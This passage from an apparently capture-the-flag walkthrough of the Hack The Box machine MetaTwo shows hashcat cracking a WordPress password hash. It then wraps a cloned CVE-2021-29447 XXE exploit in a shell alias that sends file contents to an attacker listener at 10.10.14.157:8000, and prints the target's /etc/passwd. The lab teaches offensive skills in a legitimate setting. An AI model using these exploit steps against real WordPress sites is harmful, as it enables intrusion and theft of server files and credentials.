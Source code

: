 #### Crack hash for `manager` user
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo]
└─$ hashcat -m 400 '$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70' /usr/share/wordlists/rockyou.txt --quiet --show
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```

### Gain initial access using discovered credentials for `jnelson` user

#### Prepare bash alias for file exaltation using authenticated XXE in WordPress 5.7.0 ([CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447))
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo]
└─$ git clone -q https://github.com/magicrc/CVE-2021-29447.git && \
xxe_cat() {
    python3 ./CVE-2021-29447/CVE-2021-29447.py \
        --lhost 10.10.14.157 \
        --lport 8000 \
        --target http://metapress.htb \
        --user manager \
        --password partylikearockstar \
        --file $1
}; alias xxe_cat='xxe_cat' && \
xxe_cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```
